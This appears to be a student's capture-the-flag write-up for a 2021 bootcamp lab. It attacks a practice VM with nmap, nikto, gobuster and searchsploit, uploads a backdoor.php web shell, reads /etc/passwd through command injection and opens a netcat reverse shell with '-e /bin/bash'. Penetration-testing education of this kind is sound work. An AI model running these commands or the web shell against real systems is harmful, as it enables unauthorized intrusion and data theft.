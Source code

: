 

### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2. 

nmap 192.168.1.0/24



2. Use Nmap to document all exposed ports and services at this IP address.

$ nmap -sV -sC  -O 192.168.1.115

$ nmap -Pn --script vuln 192.168.1.115 

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

    nikto -C all -h 192.168.1.115

    ![Results after running nikto](nikto.png)

    ![Results after running nikto](nikto1.png)

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`
![Installation of gobuster](install_gobuster.png)

      - Run `gobuster -w /path/to/wordlist dir -u <URL>`

      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...

      using gobuster to for in-depth enumeration

![Installation of gobuster](gobuster1.png) 

     then used the wget -r -np -k http://192.168.1.115/vedor and copied all the files in the folder to the Kali Machine

     used the grep -iR flag* to get the first flag from this directory


![Flag1](flag1_target2.png) 

5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`

    used searchsploit to get the windows vulnerability

![searchsploit](searchsploit1.png) 

![searchsploit](searchsploit2.png)

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.


Changed the IP address and was able to run the exploit and gain access to Target 2


![Back connection from the target to the kali machone](backconnection.png)


7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

![Flag2](flag2_target2.png)


8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

![Flag3](flag3_target2.png)


9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

